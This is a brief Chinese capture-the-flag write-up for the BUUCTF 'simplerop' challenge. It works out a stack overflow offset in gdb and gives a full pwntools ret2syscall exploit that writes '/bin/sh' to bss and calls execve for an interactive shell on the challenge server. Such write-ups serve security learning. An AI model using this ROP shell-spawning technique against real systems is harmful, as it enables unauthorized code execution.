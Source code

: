 ![image-20201203104555695](https://static.hack1s.fun/images/2021/02/06/image-20201203104555695.png)

32位rop

![image-20201203104848077](https://static.hack1s.fun/images/2021/02/06/image-20201203104848077.png)

main函数中出现溢出的地方在这个read

比较奇怪的是，这里实际上在执行时v4这个缓冲区和ebp的距离并不是14h

可能是因为这个程序是静态链接的，也可能是因为要返回的是main函数

在gdb里面调试，执行到read的时候停下来

![image-20201208105650092](../../../blog/source/_posts/buuctf-pwn1/image-20201208105650092.png)

计算这时ebp和eax之间相差28；

那么实际上我们需要填充28+4字节的ebp，之后才是返回地址

利用的脚本倒是不难，是一个ret2syscall，返回到execve系统调用就可以

不过需要首先将`/bin/sh`这个字符串写在bss段，由于read直接在符号表中可以找到，可以直接调用

```python
from pwn import *

io = remote('node3.buuoj.cn',28409)
#io = process('./simplerop')
elf = ELF('./simplerop')

pop_eax_ret = 0x80bae06
pop_edx_ecx_ebx_ret = 0x806e850
int_80 = 0x80493e1

read_plt = elf.sym['read']

payload = bytes('b'*32,'ascii') + p32(read_plt) + p32(pop_edx_ecx_ebx_ret) + p32(1) + p32(elf.bss())+ p32(0x8) + p32(pop_eax_ret) + p32(11) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(elf.bss()) + p32(int_80)

io.sendline(payload)
io.send('/bin/sh\x00')
io.interactive()
```

